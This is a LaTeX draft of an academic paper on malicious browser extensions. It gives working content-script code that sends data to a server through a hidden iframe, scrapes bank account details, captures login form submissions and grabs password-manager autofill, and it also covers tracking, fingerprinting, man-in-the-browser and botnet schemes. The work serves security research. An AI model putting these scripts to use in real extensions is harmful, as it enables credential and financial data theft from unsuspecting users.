For our extensions we decided against using XMLHttpRequests with proper host permissions to transfer the data. It is possible to achieve the same using only a content script without the need for any host permissions. For that purpose, we use the mechanics of an \textit{iframe} element. Its task is to display a web page within a web page. The displayed web page is defined by the URL stored inside the iframe's \textit{src} attribute. If the URL changes, the iframe reloads the web page. The Same Origin Policy creates a boundary between the iframe and it's parent web page. It prevents scripts to access content that has another origin as the script itself. If the web page inside the iframe comes from another domain as the parent web page, the iframe's JavaScript can not access the parent web page. The same applies in reverse. In conclusion, if we manipulate the target URL of an iframe, we are able to send data to our remote server. It may look like we can not receive any data in return because the Same Origin Policy blocks our content script to access the iframe. But we are able to bypass the policy using the \textit{Window.postMessage()} method. It allows us to exchange messages between the iframe and our content script. We implemented a method \texttt{send()} that transfers our data with the described strategy: \\

\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);

function send(data) {
data += "&url=" + encodeURIComponent(window.location.href);
iframe.setAttribute('src', 'https://localhost:3001/log?' + data);
}
\end{lstlisting}

In the first three lines, we create a new iframe element, turn it invisible by setting it's \texttt{style} attribute, and append it to the web pages body element. In line 5 we define the method \texttt{send(data)} that takes a string as parameter encoded in the standard URL parameter notation \footnote{World Wide Web Consortium URL specifications:
	%TODO footnote->cite
	 \url{https://url.spec.whatwg.org/}}. For example: \texttt{username=some@mail.net\&password=Abcd1234}. Inside the method, we append the current web page's URL to the outgoing data to later identify the data's origin. And finally on line 7, we set the \texttt{src} attribute of our previously created iframe to the URL of our remote server and add the data as URL parameters. At this point it is important that the data string is encoded in the URL notation. Otherwise, the receiving server could not correctly decode the request URL. \\

%TODO postMessage

While developing this code section we discovered some important requirements for our method to work. If the web page that is targeted by the iframe is secured by the \texttt{https} scheme, an unsecured request with \texttt{http} will be blocked as security prevention. On the other hand, if the web page is unsecured, a secured request is not blocked. Therefore, we use a remote server with a secured connection. But this creates another problem. Our remote server needs a valid SSL certificate. Otherwise the browser blocks the secured request. The certificate contains information about the owner. Transmitting it to the user would reveal the attackers identity. How to get a valid SSL certificate without or with fake information is off topic for our paper. To test our implementation, we used a self signed certificate and registered it manually in the browser. \\

\subsubsection{Steal Data From A Web Page}

A web page that the user requests from a server may contain sensitive information. An extension with an active content script inside the displayed web page is able to extract these information. Finding the exact location of the targeted information inside the web page is a non-trivial procedure. The location depends on the web page's HTML structure which differentiates from page to page. Therefore, a content script is only able to target specific information in a specific web page. \\

Figure 1 shows an example of a bank web page with information about the user's accounts. We implemented a content script that targets exactly our example web page and steals the displayed information: 

\begin{lstlisting}
if(window.location.href === "https://localhost:3001/bank") {
var data = [];
$('tbody > tr').each(function(i) {
var td_elements = $(this).children('td');
data.push('account' + i + '=' + td_elements.eq(0).text());
data.push('iban'    + i + '=' + td_elements.eq(1).text());
data.push('balance' + i + '=' + td_elements.eq(2).text());
});
send(data.join('&'));
}
\end{lstlisting}

We start by comparing the current web page's URL to the URL of our targeted bank web page. We declare an array to store the extracted information. The jQuery call on line 3 selects each table row (tr) inside the table's body (tbody) and executes the anonymous function between line 3 and 7. On line 4, we select all table cells (td) inside the current row. We know exactly in which column what value is stored: In the first column is the account's name, in the second the account's IBAN, and in the third the current balance. Therefore, we extract the values inside these cells on line 5, 6, and 7. We store the values inside our array in the URL parameter notation and add the current table row's index as an identifier for account information that belong together. Finally on line 9, we connect the values inside the data array with an "\&" to comply to the URL notation and forward the extracted data to our send method. \\

As we tested our extension, our server output server received the following URL: \\
\url{https://localhost:3001/log?account0=Giro\&iban0=DE12%204122%203321%204212%207664%2098&balance0=432,03%20EUR&account1=Daily%20Alloance&iban1=DE32%202313%200429%203532%203466%2031&balance1=10.023,42%20EUR&url=https%3A%2F%2Flocalhost%3A3001%2Fbank} 
	\\
	
	And extracted following values: 
	
	\begin{tabular}{l@{\hspace{1em}:\hspace{3em}}l}
		account0 & Giro \\
		iban0 & DE12 4122 3321 4212 7664 98 \\
		balance0 & 432,03 EUR \\
		account1 & Daily Allowance \\
		iban1 & DE32 2313 0429 3532 3466 31 \\
		balance1 & 10.023,42 EUR \\
		url & https://localhost:3001/bank \\
	\end{tabular} \\
	
	As mentioned before, finding elements in the web page is non-trivial. We implemented our script to exactly match our example bank web page. Small changes on the web page's HTML source code may break our code. For example, if we add a further column to the table between \textit{Account} and \textit{IBAN} such as the date of the last transaction, our content script will no longer extract the account's balance. \\
	
	\begin{figure}[hb]
		
\includegraphics[scale=0.3]{lib/bank.png}
		\caption[Example bank web page]{The example bank web page which we used for our extension to steal sensitive information from.}		
		\lstinputlisting{lib/bank.html}
		\caption[Example bank web page as HTML]{The HTML source code of our example bank web page.}
	\end{figure}
	
	\subsubsection{Steal Data From Web Forms}
	
	Many websites request sensitive information from their users for legitimate purpose. The website provides a form embedded inside a web page in which the user enters his information and then returns it back to the website's server. A typical web-form consists of a \textit{form} element that holds several \textit{input} elements and a submit button to transmit the data. The perhaps most used type is the form that is used for authenticate a user at a website. These login form typically consist of two input fields for username and password. Figure 3 shows an example of such a login form. We implemented a content script to steal the information that the user enters into our example login web page: \\
	
	\begin{lstlisting}
	$('form').submit(function(event) {
	var username = $('input[type="text"]').val();
	var password = $('input[type="password"]').val();
	var url_encoding = "username=" + username + "&password=" + password;
	send(url_encoding);
	});
	\end{lstlisting}
	
	First, we search for all form elements and add an event to each which is triggered when the form is submitted. In our case, we find one form element which is submitted when the "Login" button is pushed. On line two, we search for input elements of type text. Our web page has only one element that matches this selector, namely the input field for the username. Similar, we locate the input element of type password on line three. We convert both values to an string in URL parameter notation and forward it to our \texttt{send()} method. \\
	
	This content script has the same flaws as the script which we have implemented to steal the information from the example bank web page. It is adapted to our example login page. Small changes on the web page's HTML source code may break our script. For example, if we add another input element of type text above the username field, our script will locate both elements, concatenate their values, and forward the result as username. We could not differentiate between the text from the new input field and the actual username. \\
	
	Writing a concrete content script for each web page is inefficient. It raises the amount of work we have to do examining the structure of every targeted web page and writing adapted scripts. We also have to identify the current web page and inject the corresponding content script. If we simply inject all scripts in every web page, it will result in a heap of unwanted data because we can not foresee which content script extracts data from the current web page. Therefore, we implemented a more general content script to steal the form's values which works with every form. Surprisingly, our script is not only more efficient because it can be used on every web page, but it is also very compact. \\
	
	\begin{lstlisting}
	$('form').submit(function(event) {
	send($(this).serialize());
	});
	\end{lstlisting}
	
	Again, we start selecting all form elements on the web page and add an submit-event to each. The jQuery library lightens our workload. It provides the function \texttt{serialize()} that returns the content of a form as URL parameters. We then forward this string to our send method. \\
	
	\begin{figure}[hp]
		\begin{minipage}{0.5\textwidth}
			
\includegraphics[scale=0.4]{lib/login.png}
			\caption[Example login web page]{Example web page with a login form.}
		\end{minipage}
		\begin{minipage}{0.55\textwidth}		
			\lstinputlisting{lib/login.html}
			\caption[Example login web page as HTML]{The HTML source code of our example login web page.}
		\end{minipage}
	\end{figure}
	
	\subsubsection{Steal Data From Password Managers}
	
	Most browsers offer their user the possibility to save entered usernames and passwords within a password manager. If the user visits a login page for which the password manager has stored credentials, it inserts them automatically. We implemented a content script that waits for the password manager to fill in possible credentials and then steals them: \\
	
	\begin{lstlisting}
	setTimeout(function() {
	var form = $('input[type="password"').closest('form');
	if(form.length > 0) {
	send(form.serialize());
	}
	}, 500);
	\end{lstlisting}
	
	We use \texttt{setTimeout} to delay the execution of our functionality for 500 milliseconds to give the password manager the time to fill in the credentials. On line 2, we search for an input element of type password and select the closest form element in the DOM tree which is the login form. With the condition on the next line, we check if a form was found and in that case we forward the URL-encoded form to our send method. \\
	
	Lujo Bauer et al. described extended attacks that open predefined login pages and steal possible credentials from the password manager \cite{extensions:cns14}. Their attacks use different strategies to hide the opened pages from the user. 
	\begin{itemize}
		\itemsep0em
		\item Open the page in a inactive tab and reload the original page after the attack was performed. 
		\item Open the page in a new tab within a window that is currently not in the foreground.
		\item Add an invisible iframe to a web page and load the targeted page in it. This strategy needs the content script option \textit{all\_frames} with which a content script executes in iframes. 
	\end{itemize}
	We implemented these strategies but none of them works in Chrome or Opera. After the password manager has filled in the user's credentials, the value in the password field is not available to JavaScript before any user interaction with the web page has happened. It first looked like a bug, but it is an intended security feature \cite{chromiumBlogPasswordInput}. 
	
	% TODO maybe implement real life extensions that read facebook chat or emails
	
	\subsection{User Tracking}
	
	User tracking refers to the linking of multiple web pages that were visited by the same user, thus allowing to follow the path a user has taken from website to website. User tracking is known to harm the user's privacy and to counter attempts to stay anonymous when browsing in the Internet. %TODO cite 
	But there are also benign reasons for user tracking, for instance improving the usability of a website based on collected information. \\ 
	
	Advertising is the main reason for user tracking. Companies pay large amounts of money to display advertisements for the purpose of increasing their sales volume. Without knowledge about the consumer's interest, a company can not advertise a particular product with success. A consumer is more likely to buy a product - what the goal of advertising is - that fits his needs. Therefore, companies want to collect information's about the consumer and his interests. Given, that more and more consumer use the Internet nowadays, companies focus on websites as advertising medium. The collection and evaluation of a website's user data gives advertising companies the chance to personalize their advertisements. They can display advertisements on websites that with a high degree of probability match the current user's needs. Because this advertising strategy increases their profit, companies pay more money to website's that provide their user data for personalized advertising. Large companies such as Google or Facebook use targeted advertising as their business model. They act as middle man between advertiser and website hosts and provide large advertising networks. Other websites may embed advertisements from those networks which frees them from investing in user tracking and hosting their own servers for advertising. In addition, small websites without a monetization strategy may use embedded advertisements to continue to offer their services for free and still avoid a financial loss. \\
	
	A reason why the displaying of advertisements may be dangerous for a user was researched by Xinyu Xing et al. analyzed Chrome extensions focused on the distribution of malware through the injection of advertisements \cite{Xing:2015:UMT:2736277.2741630}. They analyzed 18,000 extensions and detected that 56 of 292 extensions which inject advertisements also inject malware into web pages. %TODO 
	\\
	
	Another area for which user tracking is used are web analytics. User data and web traffic is measured, collected, and analyzed to improve web usage. Targeted data is primarily the user's interaction with and movement through the website such as how long a web page is visited, how the user enters and leaves the website, or with which functionality he has trouble. On the basis of these information the website's developer can improve a web page's performance and usability. If used for a vending platform, these information can also be used to coordinate for example sale campaigns. \\
	
	The tracking of a user is often accomplished by storing an identifier on the user's system the first time the user visits a tracking website. Reading out the identifier from another website allows to create a tracking profile for the user. In the following passage we describe several methods used for user tracking. \\
	
	\begin{itemize}
		\item \textbf{Tracking Cookies} The first used web technology used to track users were HTTP cookies. Shortly after the introduction of cookies, first third-party vendors were observed that used cookies to track users between different web pages. If a user visits a web page that includes a resource from the tracking third-party, a cookie is fetched together with the requested resource and acts as an identifier for the user. When the user now visits a second web page that again includes some resource from the third-party, the stored cookie is send along with the request for the third-party's resource. The third-party vendor has now successfully tracked the user between two different web pages.  
		
		\item \textbf{Local Shared Objects} Flash player use a technique similar to cookies to synchronize data between different browser sessions. The data is locally stored on the user's system by websites that use flash. Flash cookies as tracking mechanism have the advantage that they track the user behind different browsers and they can store up to 100KB whereas HTTP cookies can only store 4KB. Before 2011, local shared objects could not easily be deleted from within the browser because browser plugins hold the responsibility for their own data. In 2011 a new API\footnote{https://wiki.mozilla.org/NPAPI:ClearPrivacyData} was published that simplifies this mechanism. 
		
		\item \textbf{Evercookies} Evercookie is a JavaScript framework implemented to produce persistent identifiers in a browser that are difficult to remove \cite{evercookie}. Therefore, it uses multiple storage technologies such as HTTP and Flash cookies, HTML5 storages, web history and cache, and unusual techniques such as storing the identifier in RGB values of cached graphics. To hamper the removing from a browser, it recreates deleted identifiers as soon as the user visit a web site that uses the framework. The user has to delete every stored identifier to remove the evercookie completely. 
		
		\item \texttt{Web Beacon} A web beacon is a remote loaded object that is embedded into an HTML document usually a web page or an email. It reveals that the document was loaded. Common used beacons are small and transparent images, usually one pixel in size. If the browser fetches the image it sends a request to the image's server and also sends possible tracking cookies along. This allows websites to track their user on other sites or gives the email's sender the confirmation that his email was read. A good example is Facebook's "like" button or similar content from social media websites. Those websites are interested into what other pages their users visit. The "like" button reveals this without the need to be invoked by the user. 
	\end{itemize}
	
	Previously described methods for tracking a user identify him based on some data which was intentionally stored on the user's system. Those stored identifiers are vulnerable to deletion by the user. A study from 2010 showed that a browser reveals many browser- and computer-specific information to web pages \cite{Eckersley:2010:UYW:1881151.1881152}. These information are collected and merged to create an unique fingerprint of the currently used browser. Collection the same information on another web page and comparing them to stored fingerprints, makes it possible to track and identify the current user without the need to store an identifier on the user's computer. Theoretically, it is possible to identify every person on earth with a fingerprint in the size of approximately 33 bit. Currently eight billion people live on our planet. Using 33 bit of different information we could identify $2^{33}=8,589,934,592$ people. But the same kind of information taken from different users will probably equal. Therefore, it is necessary to collect as much information as possible to create an unique fingerprint. \\
	
	The technique of fingerprinting is an increasingly common practice nowadays which is mostly used by advertising companies and anti-fraud systems. It gives the opportunity to draw a more precise picture of a user. This is supported by the increasing use of mobile devices which provides information about the user's location. Furthermore, analyzing visited web pages and search queries give access to the user's hobbies and personal preferences. Advertising companies focus mainly on the user's personal information to display even more precisely adapted advertisements. Whereas, anti-fraud systems use the identification of the currently used devices to detect possible login tries with stolen credentials. If someone tries to log in to an account, the anti-fraud system compares the fingerprint of the currently used device with stored fingerprints for that account. If the fingerprint does not match, the user either uses a new device or someone unknown got access to the user's credentials. In this case, the web services often use further identification techniques such as personal security questions or similar. \\
	
	Fingerprinting is known to harm privacy even more than simple tracking, because many personal information are gathered and stored. People fear that everything they do on the Internet is stored and may be used to harm them. This may become reality. Many politicians discuss about a data preservation to fight terrorism and criminals. Although these ideas are ...(ehrhaft), the fear that the information are misused in some form remains.
	
	For example may a health insurance increase contributions because the insurant often books journeys to countries with a higher risk of an injection or a worker is accused to reveal company secretes because he often communicates with a friend who works for the competition and fired as a result. \\
	
	
	
	% usage of mobile devices increases => devide tracking, location tracking
	% anti-fraud, identify account access with stolen credentials, identify current user and compare to stored information connected to username
	% fingerprinting + tracking => more data, 
	% collected personal data (hobbys, preferences, health status) from visited websites, search queries
	% people fear everything they do on the Internet is stored, data preservation
	% worst case szenarios: health insurance increase contributions because insurant often bookes journeys to dangerous areas or does extreme sports, boss fires user because user often communicates with a friend that works for the competition accuses him to reveal comany secretes
	% positive szenarios: identification of terrorists, tracking of criminals
	
	There exists numerous scientific papers about fingerprinting techniques \cite{paulstone_historysniffing, MBYS11, Nikiforakis:2013:CME:2497621.2498133, Eckersley:2010:UYW:1881151.1881152, MS12, olejnik:hal-00747841}. Because detailed descriptions are off topic for our paper, we focus on a brief description of popular methods. 
	
	\begin{itemize}
		\item \textbf{Browser Fingerprinting} The browser provides a variety of specific information to a web page that can be used to generate a fingerprint of the user's browser. The following list shows examples of fingerprinting properties and how to access them using JavaScript. 
		
		\renewcommand{\arraystretch}{1.2}
		\begin{tabular}{|l|l|p{0.47\textwidth}|}
			\hline
			\textbf{Property} & \textbf{JavaScript API} & \textbf{Example Output} \\
			\hline
			System & \texttt{navigator.platform} & "Win32" \\ \hline
			Browser Name & \texttt{navigator.userAgent} & "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0" \\ \hline
			Browser Engine & \texttt{navigator.appName} & "Netscape" \\ \hline
			Screen Resolution & \texttt{screen.width} & 1366 (pixels) \\
			& \texttt{screen.height} & 768 (pixels) \\
			& \texttt{screen.pixelDepth} & 24 (byte per pixel) \\ \hline
			Timezone & \texttt{Date.getTimezoneOffset()} & -60 (equals UTC+1) \\ \hline
			Browser Language & \texttt{navigator.language} & "de" \\ \hline
			System Languages & \texttt{navigator.languages} & ["de", "en-US", "en"] \\ \hline
		\end{tabular}
		
		\item \textbf{Fonts} The list of fonts available to a web page can serve as part of a user identification. The browser plugin Flash provides an API that returns a list of fonts installed on the current system. As per current scientific works, the order of the fonts list is stable and machine-specific. %TODO cite
		If the Flash plugin is not available in a browser, JavaScript can be used to test whether particular fonts are installed or not. This approach needs a predefined list and may not cover unpopular fonts. It is implemented by writing a string with each font on the web page. If a font is not installed, the browser uses a fall-back font to draw the text. Comparing the width and hight of the drawn font to those of the fall-back font gives an evidence about the font being installed. 
		
		\item \textbf{History Sniffing} Reading out the user's web history can not only serve as fingerprinting method but also to simplify user tracking. The attacker  An outdated approach to test if a user has visited a particular web page was to use the browser's feature to display links to visited web pages in a different color. A web site would hidden from the user add a list of URLs to a web page as link elements and determinate the displayed color. Nowadays, link elements that were queried by JavaScript calls behave like unvisited links fixing the tread from this sniffing attack. A current approach detects the redrawing of link elements to determine if the underlying web page was visited before \cite{paulstone_historysniffing}. If a link is drawn the first time, it is drawn as an unvisited link and simultaneously a query to the browser's web history database is send. When the query returns that the web page behind the link was visited before, it redraws the link element. This event can be captured giving the desired evidence.
		
		\item \textbf{JavaScript Benchmark Testing} The execution speed of a JavaScript engine depends on the implementation but also on the systems processor architecture and clock
		speed. Keaton Mowery et al. implemented a set of benchmark test suits to fingerprint different execution speeds \cite{MBYS11}. Using these information, they could distinguish between major browser versions, operating systems and micro architectures. 
	\end{itemize}
	
	\subsubsection{Extension As Identifier Storage}
	
	An extension is able to store information between browser sessions. Chrome even provides a cloud based storage that is automatically synced if the user uses Chrome with his Google account. This mechanism may be used to provide an additional storage for identifiers. To receive and return the identifiers from and to a web page, we adopt the \texttt{window.postMessage()} method which allows our content script to communicate with the current web page. We implemented an extension that waits for a web page to send a  message with a new identifier and returns all currently stored identifiers. Our extension needs the \texttt{storage} permission to access the local or if we use Chrome the cloud storage and a single content script that matches \texttt{"http://*/*"} and \texttt{"https://*/*"}. The content script has the following source code: \\
	
	\begin{lstlisting}
	window.addEventListener('message', function(event) {
	if(event.data.identifier) {
	chrome.storage.sync.get('identifiers', function(result) {
	var identifiers = result.identifiers !== undefined ? result.identifiers : {};
	window.postMessage({'identifiers' : identifiers }, '*');
	identifiers[event.data.identifier] = true;
	chrome.storage.sync.set({'identifiers' : identifiers});
	});
	}
	}, false);
	\end{lstlisting}
	
	We start with adding an event listener for the \texttt{message} event. This event is triggered if the method \texttt{window.postMessage()} is called. To identify messages that are addressed to us, we check on line 2 if the \texttt{identifier} key is present in the data object of the event. If this condition is met, we will retrieve the already stored identifiers from the storage API. On line 4, we check if the list of identifiers already exists and create it if not. Then, we return the list to the web page with the postMessage method. Finally on line 6 and 7 we add the new identifier to our list and store the list. \\
	
	Because this communication channel is our own implementation we can not test it on existing web sites. Therefore, we implemented our own web page with the following JavaScript attached: \\
	
	\begin{lstlisting}
	var newIdentifier = '#{newIdentifier}';
	var oldIdentifier = '#{oldIdentifier}';
	
	window.addEventListener('message', function(event) {
	if(event.data.identifiers && event.data.identifiers[oldIdentifier] === true) {
	alert('old identifier received');
	}
	}, false);
	window.postMessage({ 'identifier' : newIdentifier }, '*');
	\end{lstlisting}
	
	This JavaScript code is taken from the template of our web page. Our server replaces \texttt{\#\{newIdentifier\}} and \texttt{\#\{oldIdentifier\}} with actual values. The purpose of this script is to store the new identifier at the user's browser and to check if the old identifier was stored at an earlier date. On line 4, we again use an event listener to react if another script calls \texttt{window.postMessage()}. We identify the call from our content script by checking that the key \texttt{identifiers} was sent along the event. On the same line, we check if the old identifier is stored inside the list of identifiers. In that case, we successfully tracked a user between two calls of our web page. Finally, we post a message ourself to propagate the new identifier to our content script. \\
	
	\subsubsection{Extension As Web Beacon}
	
	A web beacon notifies a third party that a specific web page was accessed. It fetches a resource from the server and sends possible tracking cookies along the request. We implemented an extension that embeds an invisible iframe element in every visited web page. The iframe loads an empty web page from our server along with a tracking cookie. The second time our content script is executed, the tracking cookie will be sent back to our server with the request from the iframe. The extension needs a single content script with the matching attributes \texttt{"http://*/*"} and \texttt{"https://*/*"} and no further permissions.
	
	\begin{lstlisting}
	var iframe = document.createElement('iframe');
	iframe.setAttribute('src', 'https://localhost:3001/tracking/beacon');
	iframe.setAttribute('style', 'display: none;');
	document.body.appendChild(iframe);
	\end{lstlisting}
	
	We create a new \texttt{iframe} element, set it's \texttt{src} attribute to the address of our web beacon server, set it's \texttt{style} attribute to hide if and finally append the iframe to the web page. 
	
	\subsubsection{Key Logger}
	
	JavaScript enables us to register events for every interaction the user has with the current web page. This gives us the possibility to exactly observe what elements the user clicks, double clicks, or drag and drops and what text he enters in input fields. If we combine all these information, we are able to track the user on his path through the web page. 
	
	% TODO
	
	\subsubsection{Additional Fingerprint Data From Extensions}
	
	The browser provides additional information to its extension which are not available for web pages. Those information may be used to generate a more accurate fingerprint of the user's browser and system. Accessing the information needs additional permissions. The following list shows provided information that may be retrieved for a fingerprint and the permissions needed to access them: \\
	
	\begin{tabular}{l|l|l}
		\textbf{Permission} & \textbf{Information} & \textbf{Example} \\ \hline
		system.cpu & Number of processor kernels & \\
		& Processor's name & Intel(R) Core(TM) i5-3210M CPU @ 2.50GHz \\
		& Processor's capabilities & "sse", "sse2", "sse3"  \\ 
		system.memory & Memory capacity & 6501200096 \\
		gcm & An unique ID for the extension instance & \\
		management & List of installed extensions & Extension ID and version \\
	\end{tabular} 
	
	We implemented an extension that fetches the described information and sends them to our remote server. The instruction how to use the API to get the listed information is shown on the developer's platform and we have previously shown how to send information to a remote server. \\
	
	%TODO maybe some more text
	
	\subsubsection{History Sniffing With An Extension}
	
	%TODO
	
	\subsubsection{Bypass IP Proxies}
	
	%TODO
	
	\subsection{Man In The Browser}
	
	The Man-in-the-browser (MITB) is a browser based attack related to man-in-the-middle attack (MITM) \cite{Curran:2012:MBA:2433195.2433198}. It intercepts and alters web traffic to simulate a false environment for the user where his interactions will harm himself. \\
	
	The MITM is an attack scenario in computer cryptography against a direct communication between two parties where the attacker secretly gains access to the exchanged messages. This gives him the opportunity to either steal desired information or alter the communication. If he alters the traffic in the right way, he is able to impersonate one party and deceive the other one to think the communication is still private. To gain access to the communication channel, an MITM attacker has to use vulnerabilities in obsolete cryptography algorithm or exploits in buggy implemented soft or hardware. An MITB attack on the other hand is located inside the browser from where it intercepts in and outgoing web requests. The attack will be successful irrespective of security mechanisms because it takes place before any encryption or authentication is applied. \\
	
	An MITB attacker often manipulates the code base of a browser to perform his attacks and therefore needs access to the user's machine. A simpler realization of MITB attacks can be achieved using extensions. An extension can manipulate a web page to show false information and alter outgoing web requests without knowledge of the user. It is a part of the browser itself and therefore obviates the need to manipulate the browser's code base which also decreases the probability of discovery. \\
	
	A simple MITB attack scenario using an extension: The user logs into the online platform of his bank to perform a transaction. He enters needed information into the provided form and submits it back to the bank's server. The extension reads the outgoing web request and changes the target account and rises the transfer amount. The banking system can not recognize the manipulated request, because the communication channel is highly secured and the user was successfully identified. To review and check the transaction, the banking system sends back an receipt to the user. The extension intercepts the returning web request and changes the previously manipulated data back to its original state. The user does also not recognize the manipulation at this point. To hamper such attacks, modern banking systems use an extra verification before they execute the transaction. It often consists a piece of information which comes from an external source. For example a TAN generator calculates a values from the target account number, the transfer amount and some data stored on the user's banking card. This would prevent our attack scenario, because the value which is entered by the user will not match the value calculated on the server and the extension can not access the information on the banking card to calculate the correct value itself. \\
	
	An extension %TODO..
	
	\subsection{Botnet}
	
	A botnet is a network consisting of multiple compromised clients which can be controlled remotely. They are mostly used to execute large scaled cyber attacks such as Distributed Denial of Service (DDoS) or spamming. In recent times, botnets are also used to harvest social media valuations such as Facebook's likes. The controller of such a botnet - also called bot master - sales these valuations to thousands and executes them with the social media accounts which are used on the compromised machines. With the same manner, the bot master can execute DDoS attacks to make a web service unavailable for the general public. This is achieved by overwhelming the server's capacities with requests. Either targeting the network and flooding it's bandwidth or the application itself using up all of the computer's CPU resources. A simple Denial of Service (DoS) attack calls the targeted web service numerous times a second from a single origin. If the attacker uses a botnet, he is able to perform the DoS attack from multiple devices simultaneously which results in an ever bigger overwhelm at the targeted server. \\
	
	Extensions may be used as a bots. They are hosted on many different computers and can execute web requests. 
	Extensions that act as a bot where previously researched for Internet Explorer, Firefox and Chrome \cite{liu2011botnet}.
	
	%TODO..
	
	%Browser extension can be used as bot's. They are hosted on many different computers and can execute web requests. A message channel is needed to command the bots to execute some task. One possible way is to let the extension fetch its command from a server. But this method can be tracked down to the person controlling the botnet who of course wants to remain unknown. A more stealthy way is to use an extension's automatically update service. The command can be added for example as a text file which will be parsed by the extension if a new update was installed. The extension can not only launch DDoS attacks but can also be used to spam emails. Therefor the extension can use the user's email account. If the user logs into his account the extension can either use send E-Mails itself over the 
	
	%	\textbf{Send Data} It is possible to send data to any host without corresponding host permissions. To achieve this we need an injected content script in any web page. We create a new iframe element and set its \textit{src} attribute to the URL of our target server. The iframe tries to load the web page from our target server by calling the given URL with an HTTP request. The request is not restricted by host permissions because it is an iframe's purpose to load web pages from another domain. The separation between the web page loaded in the iframe and the parent web page is secured by the same origin policy. It prevents scripts to access content which is not from the same origin as the script itself. Therefore, the content script can not access the iframe's content. In conclusion, we can send out data by modifying the source URL of an iframe but we can not receive data because we are prevented by the same origin policy to access the returned content. \\
	
	%	\textbf{Visited Web Sites} We can identify web pages the user visited with a single content script in any web page and no further permission. For that purpose we add a link element to the web pages DOM. We set the URL to the web page for which we want to know whether the user has already visited it. Most browser change the color of a link whose web page the user has visited. We can identify such web pages by creating a list of link elements hidden to the user and reading out their color. Of course we can implement this easier by reading out the browser's history. But to access the history we need the corresponding permission and would declare our intention. The method with the link elements would be the better choice if we want to be stealthy. But if we do not have a list against which we can test URLs, reading out the history would be the better choice. \\
	
	%	\textbf{Key Logger} A key logger is a piece of software that stores the keyboard and mouse input from the user. It is implemented with minimal effort using JavaScript by adding an event to the DOM's root element. This event is triggered if the user presses a button or moves the mouse and can then store this information. \\
	
	%	\textbf{Man-in-the-browser} \cite{Curran:2012:MBA:2433195.2433198} The Man-in-the-browser (MITB) is a browser based attack related to man-in-the-middle attack (MITM). The MITM is attack scenario in computer cryptography against the communication between two parties who directly communicate with each other. The attacker secretly either intercepts and possibly alters the traffic or he impersonates one party and deceives the other party who still thinks he communicates with the impersonated party. MITM has to bypass security layers such as encryption or mutual authentication to gain access to the communication channel. The attack uses either vulnerabilities in obsolete cryptography algorithm or exploits in buggy implemented soft or hardware. An MITB attack is located inside the browser from where it intercepts in and outgoing web requests. The attack will be successful irrespective of security mechanisms because it takes place before any encryption or authentication is applied. An MITB often comes in the form of a Trojan Horse that infects the browser with its code. An extension can be used because i %TODO \\
	%	simple realization in extensions because an extension can intercept all in- and outgoing web requests, e.g. the webRequest module,   
	%	example attack banking: user logs into banking portal, sends data for transaction, extension reads outgoing request, changes target account and the transfer amount, banking server can not recognize manipulated request, sends back receipt, extension reads ingoing web request, changes manipulated data back to original data, modern bank systems use more secure authentication methods, for example TAN generator calculates TAN from target account number and data stored on user's banking card
	%	a related and simpler attack than the MITB is the boy-in-the-browser attack, it changes the proxy of the browser to perform a MITM attack, deletes itself after finishing, extension can also route all outgoing traffic over a malicious proxy 
	
	%	\textbf{User Interface redress attack (Clickjacking)} \cite{paulstone_clickjacking} "hijack" user mouse input to perform cross domain attacks, load a malicious web page inside an iframe and make every element invisible except the target clickable element or make the whole iframe transparent, now put it at the top most layer in the DOM, if the user now executes mouse input it is directed to the invisible or transparent iframe without him noticing, the executed input can be navigated by positioning the target element inside the iframe either over areas on the displayed page where the user is likely to interact with or directly under the cursor, mostly target social media such as faceboke's like button, using drag and drop it is possible to run Cross-Site-Request-Forgery (csrf) attacks where a HTML form is send from a cross-origin, to prevent this a token is used that is invisibly embedded inside the form, the token is created when the form is build on the server and compared when the form is send back to the server, clickjacking can bypass this security mechanism by loading the form inside the invisible iframe and letting the user fill it with drag and drop, if the user triggers a drop event it is navigated to the invisible form input field and the attacker can manipulate the dropped content, finally a click is hijacked to submit the form, in reverse can this mechanism be used to bypass the same origin policy, if the user starts the drag he drags elements from the invisible iframe to which the displayed web page 